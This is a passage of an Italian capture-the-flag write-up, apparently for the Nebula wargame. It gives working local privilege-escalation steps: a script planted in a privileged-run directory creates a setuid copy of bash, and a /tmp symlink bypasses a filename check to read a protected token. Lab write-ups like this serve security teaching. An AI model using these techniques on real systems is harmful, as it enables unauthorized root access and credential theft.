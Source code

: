 
**IDEA** : creazione di una bash privilegiato
```
#!/bin/bash
cp /bin/bash /home/flag03/bash
chmod u+s /home/flag03/bash
```


Questo script crea una bash nella home dell'utente `flag03`.


**ATTENZIONE**
Questo script sarà eseguito con privilegi elevati. Ma per farlo devo copiarlo nella cartella `writable_d`

```
cp script.sh /home/flag03/writable_d
```

Per vedere la creazione fare 
```
watch -n 1 ls -l /home/flag03
```

Infine eseguire tale bash con l'opzione `-p` perché BASH di default abbassa i privilegi effettivi per motivi di sicurezza. L'opzione -p consente di mantenerli.

```
/home/flag03/bash -p
```


## Level04
> This level requires you to read the token file, but the code restricts the files that can be read. Find a way to bypass it :)


In questo esercizio si deve leggere un file tramite quel programma, ma se il nome e token e se non si hanno i permessi,non si può.


Permission denied. Really? Nope. Where do we control everything as any user? 
- in `/tmp/`

Se facciamo un link a quel token in /tmp assegnandogli un'altro nome, e eseuguiamo lo script su quel file, dovremmo riuscire.

```
ln -s /home/flag04/token /tmp/level04
./flag04 /tmp/level04
```


Si ottiene così un token di accesso. Usarlo come password per l'utente flag04 ed infine eseguire `getflag`.


## Level05

> Check the flag05 home directory. You are looking for weak directory permissions
